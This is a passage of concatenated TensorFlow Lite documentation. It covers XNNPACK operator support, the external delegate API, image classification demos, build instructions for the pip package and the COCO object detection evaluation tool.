* Inputs and outputs must be in 32-bit floating-point format.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `NEG`

* Inputs and outputs must be in 32-bit floating-point format.

#### `PAD`

* The first input and the output must be in 32-bit floating-point format.
* The second input (the input with the padding specification) must be static
  (use `kTfLiteMmapRo` allocation type).
* The numbers of padding elements must be non-negative.

#### `PRELU`

* Inputs and outputs must be in 32-bit floating-point format.
* Slope must be static (use `kTfLiteMmapRo` allocation type).
* Slope must be either a 1D tensor, or have all its non-channel dimensions equal
  1.

#### `RELU`

* Inputs and outputs must be in 32-bit floating-point format.

#### `RELU6`

* Inputs and outputs must be in 32-bit floating-point format.

#### `RELU_N1_TO_1`

* Inputs and outputs must be in 32-bit floating-point format.

#### `RESHAPE`

* The first input and the output must be in 32-bit floating-point format.
* The second input (the input with the new shape specification) must be either
  static (use `kTfLiteMmapRo` allocation type), or absent (with the new shape
  specified via `ReshapeOptions` table).

#### `RESIZE_BILINEAR`

* The first input and the output must be 4D tensors in 32-bit floating-point
  format.
* The second input (the input with the new shape specification) must be
  static (use `kTfLiteMmapRo` allocation type).

#### `ROUND`

* Inputs and outputs must be in 32-bit floating-point format.

#### `SOFTMAX`

* Inputs and outputs must be in 32-bit floating-point format.
* Only `beta = 1.0` is supported.

#### `SQRT`

* Inputs and outputs must be in 32-bit floating-point format.

#### `SQUARE`

* Inputs and outputs must be in 32-bit floating-point format.

#### `SQUARED_DIFFERENCE`

* Inputs and outputs must be in 32-bit floating-point format.

#### `SUB`

* Inputs and outputs must be in 32-bit floating-point format.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `TRANSPOSE_CONV`

* Input, filter, bias (if present) and output tensors must be in 32-bit
  floating-point format.
* Output size, filter and bias (if present) must be static (use
  `kTfLiteMmapRo` allocation type).

### Quantized Operators

By default, quantized inference in XNNPACK delegate is disabled, and XNNPACK is
used only for floating-point models. Support for quantized inference in XNNPACK
must be enabled by adding extra Bazel flags when building TensorFlow Lite.

* `--define xnn_enable_qs8=true` flag enables XNNPACK inference for quantized
operators using signed quantization schema. This schema is used by models
produced by [Model Optimization Toolkit](https://www.tensorflow.org/model_optimization)
through either post-training integer quantization or quantization-aware
training. Post-training dynamic range quantization is not supported in XNNPACK.

* `--define xnn_enable_qu8=true` flag enables XNNPACK inference for quantized
operators using unsigned quantization schema, produced via the legacy TensorFlow
1.X quantization tooling. This option is experimental and may perform
suboptimally on mobile processors with NEON DOT product instructions.

Below is the list of currently supported quantized operators:

#### `ADD`

* Inputs and outputs must be in 8-bit quantized format.
* Only addition with two inputs is supported.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `CONV_2D`

* Inputs and outputs must be in 8-bit quantized format (bias must be in 32-bit
  quantized format).
* Bias is mandatory.
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type),
  and can use either per-tensor or per-channel quantization parameters.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `DEPTHWISE_CONV_2D`

* Inputs and outputs must be in 8-bit quantized format (bias must be in
  32-bit quantized format).
* Bias is mandatory.
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type),
  and can use either per-tensor or per-channel quantization parameters.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `DEQUANTIZE`

* Input tensor must be in 8-bit quantized format without per-channel
  quantization.
* Output tensor must be in 32-bit floating-point format.

#### `ELU`

* Inputs and outputs must be in 8-bit signed quantized format.

#### `FULLY_CONNECTED`

* Inputs and outputs must be in 8-bit quantized format (bias, if present, must
  be in 32-bit quantized format).
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type).
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `LOGISTIC`

* Inputs and outputs must be in 8-bit quantized format.

#### `MAX_POOL_2D`

* Inputs and outputs must be in 8-bit quantized format.
* 1x1 pooling with non-unit stride is not supported.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `MEAN`

* The first input and the output must be 4D tensors in 8-bit quantized format.
* The second input (the input with the axes specification) must be static
  (use `kTfLiteMmapRo` allocation type).
* Only [1, 2] or [2, 1] axes specification (i.e. reduction across spatial
  dimensions) is supported.
* Only `keep_dims = True` parameter value is supported.

#### `MUL`

* Inputs and outputs must be in 8-bit quantized format.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `PAD`

* The first input and the output must be in 8-bit quantized format.
* The second input (the input with the padding specification) must be static
  (use `kTfLiteMmapRo` allocation type).
* The numbers of padding elements must be non-negative.

#### `QUANTIZE`

* Input tensor must be in 32-bit floating-point format.
* Output tensor must be in 8-bit quantized format without per-channel
  quantization.

#### `RESIZE_BILINEAR`

* The first input and the output must be 4D tensors in 8-bit quantized format.
* The second input (the input with the new shape specification) must be
  static (use `kTfLiteMmapRo` allocation type).

#### `SUB`

* Inputs and outputs must be in 8-bit quantized format.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `TRANSPOSE_CONV`

* Input, filter, and output tensors must be in 8-bit quantized format (bias, if
  present, must be in 32-bit quantized format).
* Output size, filter and bias (if present) must be static (use
  `kTfLiteMmapRo` allocation type).

### Sparse Inference

XNNPACK backend supports sparse inference for CNN models described in the
[Fast Sparse ConvNets](https://arxiv.org/abs/1911.09723) paper. Sparse
inference is restricted to subgraphs with the following operators:

* Sparse subgraph must store its weights in sparse representation (using
  `DENSIFY` operators in the TensorFlow Lite schema).
* Sparse subgraph must start with a 3x3 stride-2 `CONV_2D` operator with
  padding 1 on each side, no dilation, and 3 input channels.
* Sparse subgraph must end with either a `MEAN` operator with reduction across
  spatial axes, or a `DEPTH_TO_SPACE` operator.
* Sparse subgraph may contain the following operators:
  * `CONV_2D` with 1x1 kernel and no padding. At least 2/3rd of filter weights
    in the 1x1 `CONV_2D` operators across the sparse subgraph must be zeroes
    to enable sparse inference.
  * `DEPTHWISE_CONV_2D` with 3x3 kernel, stride 1, no dilation, and padding 1
    on each side.
  * `DEPTHWISE_CONV_2D` with 3x3 kernel, stride 2, no dilation, and padding 1
    on each side.
  * `DEPTHWISE_CONV_2D` with 5x5 kernel, stride 1, no dilation, and padding 2
    on each side.
  * `DEPTHWISE_CONV_2D` with 5x5 kernel, stride 2, no dilation, and padding 2
    on each side.
  * `RESIZE_BILINEAR` operator with output dimensions greater than 1.
  * `MEAN` operator with reduction across spatial axes.
  * `ADD` and `MUL` operators where both inputs are 4D tensors. If one of the
    inputs to `ADD` or `MUL` is a constant tensor, it must be representable as
    either a scalar, or a 1D vector.
  * Unary elementwise operators `ABS`, `CEIL`, `ELU`, `FLOOR`, `HARD_SWISH`,
    `LEAKY_RELU`, `LOGISTIC`, `NEG`, `RELU`, `RELU6`, `RELU_N1_TO_1`, `ROUND`,
    `SIGMOID`, and `SQUARE`.

Pre-trained [Fast Sparse ConvNets models](https://github.com/google-research/google-research/tree/master/fastconvnets)
provide examples that satisfy these constrains.

### Other limitations

* Dynamically allocated (with `kTfLiteDynamic` allocation type) inputs and
  outputs are not supported.
* Resizing model inputs (via `Interpreter::ResizeInputTensor`) is supported, but
  cause a complete reinitialization of the delegate instance, which has
  considerable overhead.
# What is an External Delegate?
An external delegate is a special Tensorflow Lite delegate that is simply
initialized from loading a dynamic library which encapsulates an actual
Tensorflow Lite delegate implementation. The actual delegate exposes the
following two creation and deletion C APIs:

* __tflite_plugin_create_delegate__ (declaration seen below) creates a delegate
object based on provided key-value options. It may return NULL to indicate an
error with the detailed information reported by calling `report_error` if
provided. Each option key and value should be null-terminated.

```
TfLiteDelegate* tflite_plugin_create_delegate(
  char** options_keys, char** options_values, size_t num_options,
  void (*report_error)(const char *))
```

* __tflite_plugin_destroy_delegate__ (declaration seen below) destroys the
delegate object that is created by the previous API. NULL as an argument value
is allowed.

```
void tflite_plugin_destroy_delegate(TfLiteDelegate* delegate)
```

The external delegate provides an opaque and transparent way to utilize a
Tensorflow Lite delegate when performing inference. In other words, one may
replace the actual Tensorflow Lite delegate by simply updating the dynamic
library without changing the application code. We developed this mainly for
delegate evaluation.

Note, this delegate is the corresponding C++ implementation to the one for
Tensorflow Lite Python binding as shown [here](https://github.com/tensorflow/tensorflow/blob/7145fc0e49be01ef6943f4df386ce38567e37797/tensorflow/lite/python/interpreter.py#L42).
# TF Lite Android Example (Deprecated)

This example has been moved to the new
[TensorFlow examples repo](https://github.com/tensorflow/examples), and split
into several distinct examples:

*   [Image Classification](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android)
*   [Object Detection](https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android)
*   [Speech Commands](https://github.com/tensorflow/examples/tree/master/lite/examples/speech_commands/android)
# TensorFlow Lite C++ image classification demo

This example shows how you can load a pre-trained and converted
TensorFlow Lite model and use it to recognize objects in images.

Before you begin,
make sure you [have TensorFlow installed](https://www.tensorflow.org/install).

You also need to
[install Bazel](https://docs.bazel.build/versions/master/install.html) in order
to build this example code. And be sure you have the Python `future` module
installed:

```
pip install future --user
```

## Build the example

First run `$TENSORFLOW_ROOT/configure`. To build for Android, set
Android NDK or configure NDK setting in
`$TENSORFLOW_ROOT/WORKSPACE` first.

Build it for desktop machines (tested on Ubuntu and OS X):

```
bazel build -c opt //tensorflow/lite/examples/label_image:label_image
```

Build it for Android ARMv8:

```
bazel build -c opt --config=android_arm64 \
  //tensorflow/lite/examples/label_image:label_image
```

Build it for Android arm-v7a:

```
bazel build -c opt --config=android_arm \
  //tensorflow/lite/examples/label_image:label_image
```

## Download sample model and image

You can use any compatible model, but the following MobileNet v1 model offers
a good demonstration of a model trained to recognize 1,000 different objects.

```
# Get model
curl https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_224.tgz | tar xzv -C /tmp

# Get labels
curl https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_1.0_224_frozen.tgz  | tar xzv -C /tmp  mobilenet_v1_1.0_224/labels.txt

mv /tmp/mobilenet_v1_1.0_224/labels.txt /tmp/
```

## Run the sample on a desktop

```
bazel-bin/tensorflow/lite/examples/label_image/label_image \
  --tflite_model /tmp/mobilenet_v1_1.0_224.tflite \
  --labels /tmp/labels.txt \
  --image tensorflow/lite/examples/label_image/testdata/grace_hopper.bmp
```

You should see results like this:

```
Loaded model /tmp/mobilenet_v1_1.0_224.tflite
resolved reporter
invoked
average time: 68.12 ms
0.860174: 653 653:military uniform
0.0481017: 907 907:Windsor tie
0.00786704: 466 466:bulletproof vest
0.00644932: 514 514:cornet, horn, trumpet, trump
0.00608029: 543 543:drumstick
```

## Run the sample on an Android device

Prepare data on devices, e.g.,

```
adb push bazel-bin/tensorflow/lite/examples/label_image/label_image  /data/local/tmp
adb push /tmp/mobilenet_v1_1.0_224.tflite  /data/local/tmp
adb push tensorflow/lite/examples/label_image/testdata/grace_hopper.bmp  /data/local/tmp
adb push /tmp/labels.txt /data/local/tmp
```

Run it,

```
adb shell "/data/local/tmp/label_image \
    -m /data/local/tmp/mobilenet_v1_1.0_224.tflite \
    -i /data/local/tmp/grace_hopper.bmp \
    -l /data/local/tmp/labels.txt"
```

then you should see something like the following:

```
Loaded model /data/local/tmp/mobilenet_v1_1.0_224.tflite
resolved reporter
INFO: Initialized TensorFlow Lite runtime.
invoked
average time: 25.03 ms
0.907071: 653 military uniform
0.0372416: 907 Windsor tie
0.00733753: 466 bulletproof vest
0.00592852: 458 bow tie
0.00414091: 514 cornet
```

Run the model with NNAPI delegate (`-a 1`),

```
adb shell "/data/local/tmp/label_image \
    -m /data/local/tmp/mobilenet_v1_1.0_224.tflite \
    -i /data/local/tmp/grace_hopper.bmp \
    -l /data/local/tmp/labels.txt -a 1 -f 1"
```

then you should see something like the following:

```
Loaded model /data/local/tmp/mobilenet_v1_1.0_224.tflite
resolved reporter
INFO: Initialized TensorFlow Lite runtime.
INFO: Created TensorFlow Lite delegate for NNAPI. Applied NNAPI delegate.
invoked
average time:10.348 ms
0.905401: 653 military uniform
0.0379589: 907 Windsor tie
0.00735866: 466 bulletproof vest
0.00605307: 458 bow tie
0.00422573: 514 cornet
```

To run a model with the Hexagon Delegate, assuming we have followed the
[Hexagon Delegate Guide](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/performance/hexagon_delegate.md)
and installed Hexagon libraries in `/data/local/tmp`. Run it with (`-j 1`)

```
adb shell \
    "/data/local/tmp/label_image \
    -m /data/local/tmp/mobilenet_v1_1.0_224_quant.tflite \
    -i /data/local/tmp/grace_hopper.bmp \
    -l /data/local/tmp/labels.txt -j 1"
```

then you should see something like the followings:

```
Loaded model /data/local/tmp/mobilenet_v1_1.0_224_quant.tflite
resolved reporter
INFO: Initialized TensorFlow Lite runtime.
loaded libcdsprpc.so
INFO: Created TensorFlow Lite delegate for Hexagon.
INFO: Hexagon delegate: 31 nodes delegated out of 31 nodes with 1 partitions.
Applied Hexagon delegate.
invoked
average time: 4.231 ms
0.639216: 458 bow tie
0.329412: 653 military uniform
0.00784314: 835 suit
0.00784314: 611 jersey
0.00392157: 514 cornet
```

Run the model with the XNNPACK delegate (`-x 1`),

```shell
adb shell \
    "/data/local/tmp/label_image \
    -m /data/local/tmp/mobilenet_v1_1.0_224.tflite \
    -i /data/local/tmp/grace_hopper.bmp \
    -l /data/local/tmp/labels.txt -x 1"
```

then you should see something like the following:

```
Loaded model /data/local/tmp/mobilenet_v1_1.0_224.tflite
resolved reporter
INFO: Initialized TensorFlow Lite runtime. Applied XNNPACK delegate.
invoked
average time: 17.33 ms
0.90707: 653 military uniform
0.0372418: 907 Windsor tie
0.0073376: 466 bulletproof vest
0.00592857: 458 bow tie
0.00414093: 514 cornet
```

With `-h` or any other unsupported flags, `label_image` will list supported
options:

```shell
sargo:/data/local/tmp $ ./label_image -h
./label_image: invalid option -- h
label_image
--accelerated, -a: [0|1], use Android NNAPI or not
--old_accelerated, -d: [0|1], use old Android NNAPI delegate or not
--allow_fp16, -f: [0|1], allow running fp32 models with fp16 or not
--count, -c: loop interpreter->Invoke() for certain times
--gl_backend, -g: [0|1]: use GPU Delegate on Android
--hexagon_delegate, -j: [0|1]: use Hexagon Delegate on Android
--input_mean, -b: input mean
--input_std, -s: input standard deviation
--image, -i: image_name.bmp
--labels, -l: labels for the model
--tflite_model, -m: model_name.tflite
--profiling, -p: [0|1], profiling or not
--num_results, -r: number of results to show
--threads, -t: number of threads
--verbose, -v: [0|1] print more information
--warmup_runs, -w: number of warmup runs
--xnnpack_delegate, -x [0:1]: xnnpack delegate`
```

See the `label_image.cc` source code for other command line options.

Note that this binary also supports more runtime/delegate arguments introduced
by the [delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates).
If there is any conflict, the arguments mentioned earlier are given precedence.
For example, you can run the binary with additional command line options
such as `--use_nnapi=true --nnapi_accelerator_name=google-edgetpu` to utilize
the EdgeTPU in a 4th-gen Pixel phone. Please be aware that the "=" in the option
should not be omitted.

```
adb shell \
    "/data/local/tmp/label_image \
    -m /data/local/tmp/mobilenet_v1_1.0_224_quant.tflite \
    -i /data/local/tmp/grace_hopper.bmp \
    -l /data/local/tmp/labels.txt -j 1 \
    --use_nnapi=true --nnapi_accelerator_name=google-edgetpu"
```
# TensorFlow Lite Python image classification demo

This `label_image.py` script shows how you can load a pre-trained and converted
TensorFlow Lite model and use it to recognize objects in images. The Python
script accepts arguments specifying the model to use, the corresponding labels
file, and the image to process.

**Tip:** If you're using a Raspberry Pi, instead try the
[classify_picamera.py example](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/raspberry_pi).

Before you begin, make sure you
[have TensorFlow installed](https://www.tensorflow.org/install).

## Download sample model and image

You can use any compatible model, but the following MobileNet v1 model offers a
good demonstration of a model trained to recognize 1,000 different objects.

```sh
# Get photo
curl https://raw.githubusercontent.com/tensorflow/tensorflow/master/tensorflow/lite/examples/label_image/testdata/grace_hopper.bmp > /tmp/grace_hopper.bmp
# Get model
curl https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_224.tgz | tar xzv -C /tmp
# Get labels
curl https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_1.0_224_frozen.tgz  | tar xzv -C /tmp  mobilenet_v1_1.0_224/labels.txt

mv /tmp/mobilenet_v1_1.0_224/labels.txt /tmp/
```

## Run the sample

```sh
python3 label_image.py \
  --model_file /tmp/mobilenet_v1_1.0_224.tflite \
  --label_file /tmp/labels.txt \
  --image /tmp/grace_hopper.bmp
```

You should see results like this:

```
0.728693: military uniform
0.116163: Windsor tie
0.035517: bow tie
0.014874: mortarboard
0.011758: bolo tie
```
## Using the iOS Demo App

Please read the [TensorFlow Lite iOS Demo App](https://www.tensorflow.org/lite/demo_ios) page.
# TensorFlow Lite C++ minimal example

This example shows how you can build a simple TensorFlow Lite application.

#### Step 1. Install CMake tool

It requires CMake 3.16 or higher. On Ubuntu, you can simply run the following
command.

```sh
sudo apt-get install cmake
```

Or you can follow
[the official cmake installation guide](https://cmake.org/install/)

#### Step 2. Clone TensorFlow repository

```sh
git clone https://github.com/tensorflow/tensorflow.git tensorflow_src
```

#### Step 3. Create CMake build directory and run CMake tool

```sh
mkdir minimal_build
cd minimal_build
cmake ../tensorflow_src/tensorflow/lite/examples/minimal
```

#### Step 4. Build TensorFlow Lite

In the minimal_build directory,

```sh
cmake --build . -j
```
# Build TensorFlow Lite with Makefile

**WARNING: Using Makefile to build TensorFlow Lite is deprecated at the
Aug 2021.**

Please use CMake or Bazel instead. Please refer to the
[Build TensorFlow Lite with CMake](https://www.tensorflow.org/lite/guide/build_cmake)
and [Build TensorFlow Lite for ARM boards](https://www.tensorflow.org/lite/guide/build_arm)
for the details.
# Building TensorFlow Lite Standalone Pip

Many users would like to deploy TensorFlow lite interpreter and use it from
Python without requiring the rest of TensorFlow.

## Steps

To build a binary wheel run this script:

```sh
sudo apt install swig libjpeg-dev zlib1g-dev python3-dev python3-numpy
pip install numpy pybind11
sh tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh
```

That will print out some output and a .whl file. You can then install that

```sh
pip install --upgrade <wheel>
```

You can also build a wheel inside docker container using make tool. For example
the following command will cross-compile tflite-runtime package for python2.7
and python3.7 (from Debian Buster) on Raspberry Pi:

```sh
make BASE_IMAGE=debian:buster PYTHON=python TENSORFLOW_TARGET=rpi docker-build
make BASE_IMAGE=debian:buster PYTHON=python3 TENSORFLOW_TARGET=rpi docker-build
```

Another option is to cross-compile for python3.5 (from Debian Stretch) on ARM64
board:

```sh
make BASE_IMAGE=debian:stretch PYTHON=python3 TENSORFLOW_TARGET=aarch64 docker-build
```

To build for python3.6 (from Ubuntu 18.04) on x86_64 (native to the docker
image) run:

```sh
make BASE_IMAGE=ubuntu:18.04 PYTHON=python3 TENSORFLOW_TARGET=native docker-build
```

In addition to the wheel there is a way to build Debian package by adding
BUILD_DEB=y to the make command (only for python3):

```sh
make BASE_IMAGE=debian:buster PYTHON=python3 TENSORFLOW_TARGET=rpi BUILD_DEB=y docker-build
```

## Alternative build with Bazel (experimental)

There is another build steps to build a binary wheel which uses Bazel instead of
Makefile. You don't need to install additional dependencies.
This approach can leverage TF's ci_build.sh for ARM cross builds.

### Normal build for your workstation

```sh
tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh
```

### Optimized build for your workstation
The output may have a compatibility issue with other machines but it gives the
best performance for your workstation.

```sh
tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh native
```

### Cross build for armhf Python 3.5

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON3 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh armhf
```

### Cross build for armhf Python 3.7

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON37 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh armhf
```

### Cross build for aarch64 Python 3.5

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON3 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh aarch64
```

### Cross build for aarch64 Python 3.8

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON38 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh aarch64
```

### Cross build for aarch64 Python 3.9

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON39 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh aarch64
```

### Native build for Windows

```sh
bash tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh windows
```

## Enable TF OP support (Flex delegate)

If you want to use TF ops with Python API, you need to enable flex support.
You can build TFLite interpreter with flex ops support by providing
"--define=tflite_pip_with_flex=true" to Bazel.

Here are some examples.

### Normal build with Flex for your workstation

```sh
CUSTOM_BAZEL_FLAGS=--define=tflite_pip_with_flex=true \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh
```

### Cross build with Flex for armhf Python 3.7

```sh
CI_DOCKER_EXTRA_PARAMS="-e CUSTOM_BAZEL_FLAGS=--define=tflite_pip_with_flex=true" \
  tensorflow/tools/ci_build/ci_build.sh PI-PYTHON37 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_bazel.sh armhf
```

## Usage

Note, unlike tensorflow this will be installed to a tflite_runtime namespace.
You can then use the Tensorflow Lite interpreter as.

```python
from tflite_runtime.interpreter import Interpreter
interpreter = Interpreter(model_path="foo.tflite")
```

This currently works to build on Linux machines including Raspberry Pi. In
the future, cross compilation to smaller SOCs like Raspberry Pi from
bigger host will be supported.

## Caveats

* You cannot use TensorFlow Select ops, only TensorFlow Lite builtins.
* Currently custom ops and delegates cannot be registered.

# TFLite Serialization Tool

**NOTE:** This tool is intended for advanced users only, and should be used with
care.

The (C++) serialization library generates and writes a TFLite flatbuffer given
an `Interpreter` or `Subgraph`. Example use-cases include authoring models with
the `Interpreter` API, or updating models on-device (by modifying `tensor.data`
for relevant tensors).

## Serialization

### Writing flatbuffer to file

To write a TFLite model from an `Interpreter` (see `lite/interpreter.h`):
`std::unique_ptr<tflite::Interpreter> interpreter; // ...build/modify
interpreter... tflite::ModelWriter writer(interpreter.get()); std::string
filename = "/tmp/model.tflite"; writer.Write(filename);`

Note that the above API does not support custom I/O tensors or custom ops yet.
However, it does support model with Control Flow.

To generate/write a flatbuffer for a particular `Subgraph` (see
`lite/core/subgraph.h`) you can use `SubgraphWriter`.

```
std::unique_ptr<tflite::Interpreter> interpreter;
// ...build/modify interpreter...
// The number of subgraphs can be obtained by:
// const int num_subgraphs = interpreter_->subgraphs_size();
// Note that 0 <= subgraph_index < num_subgraphs
tflite::SubgraphWriter writer(&interpreter->subgraph(subgraph_index));
std::string filename = "/tmp/model.tflite";
writer.Write(filename);
```

`SubgraphWriter` supports custom ops and/or custom I/O tensors.

### Generating flatbuffer in-memory

Both `ModelWriter` and `SubgraphWriter` support a `GetBuffer` method to return
the generated flatbuffer in-memory:

```
std::unique_ptr<uint8_t[]> output_buffer;
size_t output_buffer_size;
tflite::ModelWriter writer(interpreter.get());
writer.GetBuffer(&output_buffer, &output_buffer_size);
```

## De-serialization

The flatbuffers written as above can be de-serialized just like any other TFLite
model, for eg:

```
std::unique_ptr<FlatBufferModel> model =
    FlatBufferModel::BuildFromFile(filename);
tflite::ops::builtin::BuiltinOpResolver resolver;
InterpreterBuilder builder(*model, resolver);
std::unique_ptr<Interpreter> new_interpreter;
builder(&new_interpreter);
```
# TFLite Model Task Evaluation

This page describes how you can check the accuracy of quantized models to verify
that any degradation in accuracy is within acceptable limits.

## Accuracy & correctness

TensorFlow Lite has two types of tooling to measure how accurately a delegate
behaves for a given model: Task-Based and Task-Agnostic.

**Task-Based Evaluation** TFLite has two tools to evaluate correctness on two
image-based tasks: - [ILSVRC 2012](http://image-net.org/challenges/LSVRC/2012/)
(Image Classification) with top-K accuracy -
[COCO Object Detection](https://cocodataset.org/#detection-2020) (w/ bounding
boxes) with mean Average Precision (mAP)

**Task-Agnostic Evaluation** For tasks where there isn't an established
on-device evaluation tool, or if you are experimenting with custom models,
TensorFlow Lite has the Inference Diff tool.

## Tools

There are three different binaries which are supported. A brief description of
each is provided below.

### [Inference Diff Tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/inference_diff#inference-diff-tool)

This binary compares TensorFlow Lite execution in single-threaded CPU inference
and user-defined inference.

### [Image Classification Evaluation](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification#image-classification-evaluation-based-on-ilsvrc-2012-task)

This binary evaluates TensorFlow Lite models trained for the
[ILSVRC 2012 image classification task.](http://www.image-net.org/challenges/LSVRC/2012/)

### [Object Detection Evaluation](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/coco_object_detection#object-detection-evaluation-using-the-2014-coco-minival-dataset)

This binary evaluates TensorFlow Lite models trained for the bounding box-based
[COCO Object Detection](https://cocodataset.org/#detection-eval) task.

********************************************************************************

For more information visit the TensorFlow Lite guide on
[Accuracy & correctness](https://www.tensorflow.org/lite/performance/delegates#accuracy_correctness)
page.
# Object Detection evaluation using the 2014 COCO minival dataset.

This binary evaluates the following parameters of TFLite models trained for the
**bounding box-based**
[COCO Object Detection](http://cocodataset.org/#detection-eval) task:

*   Native pre-processing latency
*   Inference latency
*   mean Average Precision (mAP) averaged across IoU thresholds from 0.5 to 0.95
    (in increments of 0.05) and all object categories.

The binary takes the path to validation images and a ground truth proto file as
inputs, along with the model and inference-specific parameters such as delegate
and number of threads. It outputs the metrics to std-out as follows:

```
Num evaluation runs: 8059
Preprocessing latency: avg=16589.9(us), std_dev=0(us)
Inference latency: avg=85169.7(us), std_dev=505(us)
Average Precision [IOU Threshold=0.5]: 0.349581
Average Precision [IOU Threshold=0.55]: 0.330213
Average Precision [IOU Threshold=0.6]: 0.307694
Average Precision [IOU Threshold=0.65]: 0.281025
Average Precision [IOU Threshold=0.7]: 0.248507
Average Precision [IOU Threshold=0.75]: 0.210295
Average Precision [IOU Threshold=0.8]: 0.165011
Average Precision [IOU Threshold=0.85]: 0.116215
Average Precision [IOU Threshold=0.9]: 0.0507883
Average Precision [IOU Threshold=0.95]: 0.0064338
Overall mAP: 0.206576
```

To run the binary, please follow the
[Preprocessing section](#preprocessing-the-minival-dataset) to prepare the data,
and then execute the commands in the
[Running the binary section](#running-the-binary).

## Parameters

The binary takes the following parameters:

*   `model_file` : `string` \
    Path to the TFlite model file. It should accept images preprocessed in the
    Inception format, and the output signature should be similar to the
    [SSD MobileNet model](https://www.tensorflow.org/lite/models/object_detection/overview#output.):

*   `model_output_labels`: `string` \
    Path to labels that correspond to output of model. E.g. in case of
    COCO-trained SSD model, this is the path to a file where each line contains
    a class detected by the model in correct order, starting from 'background'.

A sample model & label-list combination for COCO can be downloaded from the
TFLite
[Hosted models page](https://www.tensorflow.org/lite/guide/hosted_models#object_detection).

*   `ground_truth_images_path`: `string` \
    The path to the directory containing ground truth images.

*   `ground_truth_proto`: `string` \
    Path to file containing tflite::evaluation::ObjectDetectionGroundTruth proto
    in text format. If left empty, mAP numbers are not provided.

The above two parameters can be prepared using the `preprocess_coco_minival`
script included in this folder.

*   `output_file_path`: `string` \
    The final metrics are dumped into `output_file_path` as a string-serialized
    instance of `tflite::evaluation::EvaluationStageMetrics`.

The following optional parameters can be used to modify the inference runtime:

*   `num_interpreter_threads`: `int` (default=1) \
    This modifies the number of threads used by the TFLite Interpreter for
    inference.

*   `delegate`: `string` \
    If provided, tries to use the specified delegate for accuracy evaluation.
    Valid values: "nnapi", "gpu", "hexagon".

    NOTE: Please refer to the
    [Hexagon delegate documentation](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/performance/hexagon_delegate.md)
    for instructions on how to set it up for the Hexagon delegate. The tool
    assumes that `libhexagon_interface.so` and Qualcomm libraries lie in
    `/data/local/tmp`.

This script also supports runtime/delegate arguments introduced by the
[delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates).
If there is any conflict (for example, `num_threads` vs
`num_interpreter_threads` here), the parameters of this
script are given precedence.

When **multiple delegates** are specified to be used in the commandline flags
via the support of delegate registrar, the order of delegates applied to the
TfLite runtime will be same as their enabling commandline flag is specified. For
example, "--use_xnnpack=true --use_gpu=true" means applying the XNNPACK delegate
first, and then the GPU delegate secondly. In comparison,
"--use_gpu=true --use_xnnpack=true" means applying the GPU delegate first, and
then the XNNPACK delegate secondly.

Note, one could specify `--help` when launching the binary to see the full list
of supported arguments.

### Debug Mode

The script also supports a debug mode with the following parameter:

*   `debug_mode`: `boolean` \
    Whether to enable debug mode. Per-image predictions are written to std-out
    along with metrics.

Image-wise predictions are output as follows:

```
======================================================

Image: image_1.jpg

Object [0]
  Score: 0.585938
  Class-ID: 5
  Bounding Box:
    Normalized Top: 0.23103
    Normalized Bottom: 0.388524
    Normalized Left: 0.559144
    Normalized Right: 0.763928
Object [1]
  Score: 0.574219
  Class-ID: 5
  Bounding Box:
    Normalized Top: 0.269571
